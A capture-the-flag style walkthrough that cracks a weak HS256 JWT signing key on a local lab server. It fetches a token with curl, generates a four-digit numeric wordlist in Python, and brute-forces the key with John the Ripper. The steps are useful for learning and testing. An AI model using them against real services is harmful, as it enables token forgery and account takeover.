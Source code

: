 #### Step 2:
Getting the JWt Token for the user with username `user1`.
**Command**: `curl --location --request GET 'http://127.0.0.1:5000/login' \
--header 'Authorization: Basic dXNlcjE6ODk4OQ==' \
--data-raw ''`

<img src="https://user-images.githubusercontent.com/76884959/196610338-e1687f73-4974-4e0b-bedf-fc36ededa24e.png" width="600" />

The response contains the JWT Token for the user.

#### Step 3:
Decoding the token header and payload parts using https://jwt.io.
<img src="https://user-images.githubusercontent.com/76884959/196611018-98564f27-161e-47b1-be41-ca070cb9b340.png" width="600" />

The token uses HS256 algorithm (a symmetric signing key algorithm).

Since it is mentioned in the challenge description that a weak secret key has been used to sign the token and the constraints on the key are also specified, a bruteforce attack could be used to disclose the correct secret key.

#### Step 4:
We'll be using John The Ripper (jtr) for performing the bruteforce attack. For installing jtr follow the give command: `sudo apt-get install john -y` or `sudo snap install john-the-ripper`

To check if it is installed type `john` in the terminal.

<img src="https://user-images.githubusercontent.com/76884959/196611821-f6f05e27-fc56-4b16-bbcf-d5ee2c4d2f8c.png" width="600" />

#### Step 5:
Save the JWT Token obtained in Step 2 into a file called `jwt.txt`.

#### Step 6:
Generate a wordlist used for brute-forcing the signing-key:
Save the following Python script as `generate-wordlist.py`:
```
fp = open("wordlist.txt", "w")

for i in range (10):
  for j in range (10):
    for k in range (10):
      for l in range (10):
        fp.write(str(i) + str(j) + str(k) + str(l) + "\n");

fp.close()
```

Run the above python script to generate the wordlist.
**Command**" `python3 generate-wordlist.py`

#### Step 7:
The final step is to burte-force the signing key:
**Command**: `john jwt.txt — wordlist=wordlist.txt — format=HMAC-SHA256`
